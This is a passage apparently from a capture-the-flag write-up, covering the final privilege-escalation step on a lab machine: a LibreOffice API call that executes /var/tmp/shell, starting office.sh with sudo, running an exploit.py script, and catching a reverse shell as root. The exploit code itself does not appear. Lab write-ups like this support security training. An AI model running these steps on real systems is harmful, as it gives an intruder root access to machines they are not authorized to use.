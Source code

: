```markdown
shell_execute.execute("/var/tmp/shell", "",1)
```
Then transfer the `exploit.py` to the host and execute the `office.sh` shell script with `sudo` to initiate the libreoffice server.
```markdown
sudo /usr/bin/office.sh
```
Now run the exploit.
```markdown
python3 /var/tmp/exploit.py
```
A reverse shell is received on the listener.

![formulax6 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/df8609c8-0f5e-47e0-8f21-9efefd02725e)

You are root.
